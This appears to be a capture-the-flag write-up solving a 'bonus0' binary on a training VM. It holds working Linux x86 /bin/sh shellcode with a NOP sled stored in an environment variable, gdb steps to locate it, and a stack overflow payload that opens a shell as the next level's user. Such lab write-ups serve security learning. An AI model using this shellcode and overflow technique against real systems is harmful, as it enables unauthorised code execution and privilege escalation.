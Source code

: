 Good, reproduce in the vm!

	$ export payload=$(python -c 'print "\x90"*400+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')

Get the nopsled address

	(gdb) b *main+28
	Breakpoint 1 at 0x80485c0

	(gdb) r
	Starting program: /home/user/bonus0/bonus0
	-
	a
	-
	a
	Breakpoint 1, 0x080485c0 in main ()

	(gdb) x/200xs (char **)environ
	0xbffffc7d:"payload=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
	....

	(gdb) x/200xg 0xbffffc7d


We can take "0xbffffcbd"

Build the payload and exploit

	$ python -c 'print "B"*4095+"\n"+"A"*13+"\xbd\xfc\xff\xbf"+"B"*30' > /tmp/payload

	$ cat /tmp/payload - | ./bonus0
	 -
	 -
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAA����BBB��� AAAAAAAAAAAAA����BBB���
	whoami
	Segmentation fault (core dumped)

Does not work on the vm with the 13 offset (why? gdb?), try with the other 9

	$ python -c 'print "B"*4095+"\n"+"A"*9+"\xbd\xfc\xff\xbf"+"B"*30' > /tmp/payload

	$ cat /tmp/payload - | ./bonus0
	 -
	 -
	BBBBBBBBBBBBBBBBBBBBAAAAAAAAA����BBBBBBB��� AAAAAAAAA����BBBBBBB���
	whoami
	bonus1

Good
